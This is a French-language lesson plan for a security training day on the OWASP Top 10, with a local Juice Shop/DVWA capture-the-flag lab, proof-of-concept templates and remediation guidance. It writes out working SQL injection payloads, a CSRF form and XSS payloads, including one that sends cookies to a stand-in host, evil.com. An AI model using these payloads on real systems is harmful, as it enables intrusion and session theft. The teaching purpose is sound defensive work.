

# Jour 4 — Jeudi 10 septembre : Cyber offensive — Sensibilisation & OWASP

---

## 1. Résumé exécutif

Ce quatrième jour bascule en posture **offensive** pour comprendre comment un attaquant exploite les failles que nous, développeurs et ops, laissons involontairement dans le code et l'infrastructure. L'objectif n'est pas de devenir pentester, mais d'acquérir le **vocabulaire et les réflexes d'auditeur** pour transformer chaque constat en action de remédiation concrète (Jalon 4).

> **Fil conducteur** : « Ce que je peux exploiter en local, je dois le corriger avant de déployer. »

---

## 2. Objectifs pédagogiques

À la fin de la journée, vous serez capable de :

| Compétence | Indicateur de réussite |
|------------|------------------------|
| Identifier les 10 risques OWASP Top 10 2021 dans du code réel | Citer au moins 5 catégories avec un exemple concret |
| Exploiter une injection SQL et un XSS refléchi/stocké sur un environnement local | Obtenir un flag ou extraire des données dans Juice Shop / DVWA |
| Cartographier la **surface d'attaque** de votre projet (jours 2-3) | Produire un schéma entrées/sorties + liste de risques priorisés |
| Rédiger une **preuve reproductible** (steps + commande + résultat attendu) | Deux preuves valides commitées dans le repo |
| Ouvrir des **issues Git de remédiation** avec titre, severity, PoC, fix suggéré | 4 issues minimum, labels `security`, `audit`, `prio:high/medium` |

---

## 3. Détaillage horaire détaillé

### 09h00 – 09h40 : Sensibilisation sécurité & Top 10 OWASP (40 min)

| Temps | Contenu | Support |
|-------|---------|---------|
| 09h00 | Introduction : posture d'auditeur vs développeur, définition de la **surface d'attaque** | Slides + schéma tableau blanc |
| 09h10 | OWASP Top 10 2021 — parcours commenté : A01 Broken Access Control, A02 Cryptographic Failures, A03 Injection, A04 Insecure Design, A05 Security Misconfiguration, A06 Vulnerable Components, A07 Authentication Failures, A08 Software Integrity Failures, A09 Logging Failures, A10 SSRF | Fiche mémo 1 page distribuée |
| 09h25 | Focus techniques : **Injection SQL** (union-based, blind, time-based), **XSS** (réfléchi, stocké, DOM), **CSRF** (same-site, tokens), **Mauvaises configs** (headers manquants, debug activé), **Contrôles d'accès défaillants** (IDOR, élévation de privilèges) | Démo live sur snippet vulnérable |
| 09h35 | Vocabulaire Jalon 4 : Entrée, Risque, Preuve reproductible, Remédiation | Glossaire partagé |

> **Astuce orale** : « Ne mémorisez pas la liste. Retenez : *entrée non validée → traitement non sûr → impact*. C'est le pattern universel. »

---

### 09h40 – 11h15 : Atelier CTF — OWASP Juice Shop / DVWA (95 min)

#### Prérequis (5 min)

```bash
# Option A — OWASP Juice Shop (recommandé, plus complet)
docker run -d -p 3000:3000 --name juice-shop bkimminich/juice-shop

# Option B — DVWA (plus simple pour débuter)
docker run -d -p 8080:80 --name dvwa vulnerables/web-dvwa
```

> Vérifiez l'accès : `http://localhost:3000` (Juice Shop) ou `http://localhost:8080` (DVWA, login `admin` / `password`).

#### Challenges guidés (80 min)

| # | Challenge | Cible OWASP | Étapes clés | Preuve attendue |
|---|-----------|-------------|-------------|-----------------|
| 1 | **SQL Injection — Login bypass** | A03 Injection | `admin' --` dans champ email, mot de passe quelconque | Capture requête + réponse `Welcome admin` |
| 2 | **XSS Réfléchi — Search** | A03 Injection | `<script>alert(1)</script>` dans barre de recherche | Popup exécutée + URL avec payload encodé |
| 3 | **XSS Stocké — Feedback / Review** | A03 Injection | Poster `` | Payload persisté, exécuté au rechargement |
| 4 | **Broken Access Control — IDOR** | A01 Broken Access Control | Modifier `userId=2` → `userId=1` dans requête API | Accès données utilisateur 1 sans autorisation |

> **Méthode** : Binôme pilote/observateur. Changez de rôle à chaque challenge. Notez **chaque étape** (commande curl, clic, payload, réponse) dans un fichier `poc-<challenge>.md`.

#### Nettoyage (10 min)

```bash
docker stop juice-shop dvwa && docker rm juice-shop dvwa
```

---

### 11h15 – 11h45 : Fil rouge · Jalon 4 — Audit d'impact (30 min)

**Consigne** : En binôme, auditez **le code et les scripts produits aux Jours 2 et 3** (pipeline CI, scripts de déploiement, configs Docker, code applicatif).

#### Étapes

1. **Cartographie de la surface d'attaque** (10 min)
   - Lister toutes les **entrées** : endpoints HTTP, variables d'env, fichiers de config, paramètres CLI, webhooks, buckets S3, queues
   - Représenter sous forme de tableau ou schéma Mermaid

2. **Liste priorisée de risques** (10 min)
   - Pour chaque entrée : identifier la catégorie OWASP, estimer **probabilité × impact** (échelle 1-5), noter le composant concerné
   - Trier par score décroissant

3. **Deux preuves reproductibles en local** (10 min)
   - Choisir 2 risques « High » ou « Medium »
   - Rédiger un `POC-<risque>.md` : prérequis, steps exacts (cmd/curl), résultat observé, résultat attendu après fix

> **Format preuve reproductible** (modèle) :
> ```markdown
> # POC — SQL Injection dans /api/users?id=
> ## Prérequis
> - Projet démarré : `docker compose up -d`
> - Base de données initialisée avec user `id=1`
> ## Steps
> 1. `curl "http://localhost:8080/api/users?id=1' UNION SELECT null,username,password FROM users--"`
> 2. Observer la réponse JSON contenant les hashs
> ## Résultat observé
> `[{"id":"1","username":"admin","password":"$2b$10$..."}]`
> ## Résultat attendu après fix
> Erreur 400 / réponse vide / paramètre sanitisisé
> ```

---

### 11h45 – 12h00 : Synthèse — Relier erreurs de code & vulnérabilités exploitables (15 min)

| Erreur classique | Vulnérabilité exploitable | Remédiation type |
|------------------|---------------------------|------------------|
| Concaténation SQL brute | Injection SQL → fuite BDD | Requêtes paramétrées / ORM |
| `innerHTML` sans sanitization | XSS stocké → vol session | `textContent` / DOMPurify / CSP |
| Absence token CSRF sur formulaire critique | CSRF → action non voulue | SameSite=Strict + token synchronizer |
| `debug=True` en prod / headers manquants | Info leak / clickjacking / MIME sniffing | Security headers middleware |
| Vérif auth seulement côté frontend | IDOR / élévation privilèges | Contrôle côté serveur (RBAC/ABAC) |

> **Message clé** : « Chaque ligne de code qui touche une entrée externe est une ligne de front. Traitez-la comme telle. »

---

## 4. Concepts clés

### OWASP Top 10 2021 — Rappel rapide

| ID | Catégorie | Exemple concret |
|----|-----------|-----------------|
| A01 | Broken Access Control | `/api/users/123/orders` accessible sans check ownership |
| A02 | Cryptographic Failures | MDP en clair, TLS 1.0, JWT `alg: none` |
| A03 | Injection | SQLi, NoSQLi, Command Injection, LDAPi |
| A04 | Insecure Design | Absence threat modeling, flux métier contournables |
| A05 | Security Misconfiguration | S3 public, `.git` exposé, headers CSP absents |
| A06 | Vulnerable Components | `lodash@4.17.15` (prototype pollution), Log4Shell |
| A07 | Authentication Failures | Brute force, session fixation, reset token prévisible |
| A08 | Software Integrity Failures | CI/CD sans signature, dépendances non vérifiées (SLSA) |
| A09 | Logging Failures | Pas de log sur échec auth, pas d'alerte sur 401 en rafale |
| A10 | SSRF | `fetch(user_input_url)` sans allowlist |

---

### Injection SQL — Mécanique & Preuve

```sql
-- Requête vulnérable (conception)
SELECT * FROM users WHERE email = 'user@input' AND password = 'pwd';

-- Payload union-based
' UNION SELECT null, username, password, null FROM users-- 

-- Payload time-based blind (MySQL)
' AND (SELECT SLEEP(5) FROM DUAL WHERE 1=1)-- 
```

**Commande de test reproductible** :

```bash
curl -G "http://localhost:8080/api/login" \
  --data-urlencode "email=admin'--" \
  --data-urlencode "password=anything"
```

> **Preuve complète** = requête HTTP exacte + réponse brute (headers + body) + explication du pourquoi.

---

### XSS — Trois variantes

| Type | Vecteur | Exemple payload | Défense |
|------|---------|-----------------|---------|
| Réfléchi | Paramètre URL / champ search réfléchi sans encodage | `<script>fetch('//evil.com/?c='+document.cookie)</script>` | Encodage sortie + CSP `script-src 'self'` |
| Stocké | Commentaire, profil, ticket, log affiché en admin | `` persistant en BDD | Sanitization entrée + sortie + CSP |
| DOM-based | `location.hash`, `document.write`, `innerHTML` côté client | `#` | Éviter sinks dangereux, Trusted Types |

---

### CSRF — Pourquoi SameSite ne suffit pas toujours

```html
<!-- Formulaire vulnérable (pas de token, SameSite=Lax) -->
<form action="https://api.example.com/transfer" method="POST">
  <input name="amount" value="1000">
  <input name="to" value="attacker">
  <button>Valider</button>
</form>
```

- `SameSite=Lax` bloque les POST cross-site **depuis un lien**, mais pas depuis un `form` auto-submit ou une requête `fetch` avec `credentials: 'include'` si l'attaquant contrôle une sous-page.
- **Défense** : Token CSRF synchronizer (double-submit cookie) + `SameSite=Strict` sur cookie de session.

---

### Surface d'attaque — Modélisation pratique



**Entrées à auditer** : query params, body JSON, headers (`X-Forwarded-For`, `Authorization`), cookies, fichiers upload, variables d'env, config files, messages queue.

---

### Preuve reproductible — Checklist

- [ ] Prérequis d'environnement (versions, `docker compose up`, seed data)
- [ ] Commande exacte copiable-collable (curl, httpie, script Python)
- [ ] Résultat observé (stdout, capture d'écran, extrait logs)
- [ ] Résultat attendu après correction
- [ ] Référence OWASP (ex: `A03:2021-Injection`)
- [ ] Fichier commité : `docs/poc/POC-<id>.md`

---

## 5. Livrables Jalon 4 — Definition of Done

| Livrable | Format | Emplacement | DoD |
|----------|--------|-------------|-----|
| **Cartographie surface d'attaque** | Mermaid + tableau Markdown | `docs/audit/surface-attaque.md` | Toutes entrées listées, classées par type (HTTP, CLI, env, file, queue) |
| **Liste priorisée de risques** | Tableau Markdown (risque, OWASP, composant, probabilité, impact, score, statut) | `docs/audit/risques.md` | ≥ 10 risques, triés par score, au moins 3 `High` |
| **Preuve 1 (ex: SQLi)** | `POC-<id>.md` | `docs/poc/` | Steps reproductibles, résultat observé, référence OWASP |
| **Preuve 2 (ex: XSS)** | `POC-<id>.md` | `docs/poc/` | Idem |
| **Issues Git remédiation** | GitHub/GitLab Issues | Repo projet | 4 issues min, labels `security`, `audit`, `prio:high/medium`, description = titre + PoC + fix suggéré + réf OWASP |

> **Validation** : Le binôme échange ses preuves — si l'autre reproduit sans aide, c'est validé.

---

## 6. Erreurs fréquentes (et comment les éviter)

| Erreur | Conséquence | Correction |
|--------|-------------|------------|
| **Tester une adresse publique** (ex: `juice-shop.herokuapp.com`) | Violation CGU, IP bannie, données réelles exposées | **Toujours en local** via Docker. Aucun trafic sortant vers cible non autorisée. |
| **Conserver un secret dans une capture** (token JWT, MDP hashé dans screenshot) | Fuite de crédentiels dans le repo / partage | Masquer / flouter avant commit. Utiliser `sed 's/secret/***REDACTED***/g'` sur les exports. |
| **Confondre erreur 500 avec preuve complète** | Preuve irreproductible, pas de compréhension root cause | Capturer **requête + réponse complète** (headers, body, code). Expliquer *pourquoi* le serveur renvoie 500 (stack trace = info leak bonus). |
| **Payload XSS non exécuté** (encodé par le framework) | Faux négatif, temps perdu | Vérifier le contexte de réflexion : attribut HTML ? JS string ? Event handler ? Adapter le payload (`"><svg onload=...>`, `\'-alert(1)//`, etc.) |
| **Oublier le nettoyage Docker** | Ports occupés, données polluées pour jour suivant | `docker compose down -v` ou `docker stop/rm` systématique en fin d'atelier. |

---

## 7. Connexions avec les jours suivants

| Jour | Lien avec Jalon 4 |
|------|-------------------|
| **Jour 5 (Vendredi)** — Durcissement & Supply Chain | Les issues de remédiation créées aujourd'hui deviennent les **tickets du sprint durcissement** : headers CSP, dépendances à jour, secrets management, SBOM. |
| **Jour 6 (Lundi)** — Monitoring & Détection | Les **preuves reproductibles** servent de **cas de test** pour valider les règles de détection (Sigma, Falco, WAF) : « Ma règle détecte-t-elle ce SQLi ? » |
| **Jour 7 (Mardi)** — Réponse à incident | La **cartographie surface d'attaque** définit le **périmètre de l'exercice** : quels logs collecter, quels playbooks écrire. |
| **Jour 8 (Mercredi)** — Gouvernance & Preuve | Les **issues Git** alimentent le **registre de risques** et la **traçabilité conformité** (evidence pour audit). |

> **Vision globale** : L'audit d'aujourd'hui = le backlog sécurité des 4 jours restants.

---

## 8. Pour aller plus loin — Conseils pratiques & Commandes utiles

### Ressources de référence

- **OWASP Top 10 2021** : https://owasp.org/Top10/
- **OWASP Cheat Sheet Series** : https://cheatsheetseries.owasp.org/ (XSS, SQLi, CSRF, Auth, Headers)
- **OWASP Testing Guide v4** : https://owasp.org/www-project-testing-guide/
- **PortSwigger Web Security Academy** (labs gratuits) : https://portswigger.net/web-security

### Outils locaux recommandés

```bash
# Analyse statique code (SAST) — gratuit, local
docker run --rm -v $(pwd):/src securecodewarrior/sast-scan:latest /src

# Détection secrets dans l'historique git
trufflehog git file://. --since-commit=HEAD~50

# Scan dépendances vulnérables (SCA)
docker run --rm -v $(pwd):/src aquasec/trivy:latest fs /src

# Test headers sécurité
curl -sI https://votre-app.com | grep -iE "content-security-policy|x-frame-options|x-content-type-options|referrer-policy|permissions-policy|strict-transport-security"

# Fuzzing basique d'endpoints (wordlist)
ffuf -u "http://localhost:8080/api/FUZZ" -w /usr/share/wordlists/dirb/common.txt -mc 200,403,500
```

### Patterns de remédiation rapides

| Vulnérabilité | Fix minimal (code) |
|---------------|-------------------|
| SQLi | `cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))` — **jamais** f-string |
| XSS (template Jinja2) | `{{ user_input \| e }}` ou `autoescape=true` global |
| XSS (React) | `{userInput}` (échappé auto) — éviter `dangerouslySetInnerHTML` |
| CSRF (Django/Flask/Express) | Middleware `csurf` / `django.middleware.csrf.CsrfViewMiddleware` + `<input type="hidden" name="csrf_token" value="{{ csrf_token }}">` |
| IDOR | `if resource.owner_id != current_user.id: raise Forbidden()` — **côté serveur** |
| Headers manquants | Middleware : `helmet()` (Express), `Talisman` (Flask), `django-csp` / `SECURE_*` settings |

### Commandes utiles pour l'audit (Jalon 4)

```bash
# 1. Lister tous les endpoints exposés (ex: FastAPI/Flask/Express)
grep -r "@app.route\|@router.get\|app\.(get|post|put|delete)" --include="*.py" --include="*.js" .

# 2. Trouver les concaténations SQL suspectes
grep -rn "execute.*f\"" --include="*.py" . | grep -v test
grep -rn "query.*+" --include="*.js" . | grep -v test

# 3. Repérer les innerHTML / dangerouslySetInnerHTML
grep -rn "innerHTML\|dangerouslySetInnerHTML" --include="*.js" --include="*.tsx" .

# 4. Vérifier les variables d'env sensibles en dur
grep -rn "password\|secret\|api_key\|token" --include="*.py" --include="*.js" --include="*.yaml" --include="*.yml" . | grep -v test | grep -v ".example"

# 5. Générer un SBOM (Software Bill of Materials)
docker run --rm -v $(pwd):/src anchore/syft:latest /src -o json > sbom.json
```

### Modèle d'issue Git de remédiation

```markdown
## Titre : [A03] SQL Injection dans /api/users — paramètre `id` non paramétré

**Severity** : High  
**Labels** : `security`, `audit`, `prio:high`  
**OWASP** : A03:2021-Injection  

### Description
Le endpoint `GET /api/users?id=` concatène directement la valeur du paramètre dans la requête SQL sans paramétrisation.

### Preuve reproductible (PoC)
Voir `docs/poc/POC-sqli-users-id.md`

### Impact
- Lecture de toute la table `users` (hashs, emails)
- Potentielle écriture / suppression via UNION / stacked queries
- Contournement authentification

### Fix suggéré
```python
# AVANT (vulnérable)
cursor.execute(f"SELECT * FROM users WHERE id = {user_id}")

# APRÈS (sécurisé)
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
```

### Références
- OWASP ASVS 4.0.1 §5.3.4
- PortSwigger SQLi cheatsheet
```

---

> **Dernier mot** : « L'audit n'est pas une chasse aux sorcières. C'est un inventaire honnête pour que l'équipe puisse dormir tranquille. Chaque preuve que vous écrivez aujourd'hui, c'est une alerte que vous n'aurez pas à traiter en prod à 3h du matin. »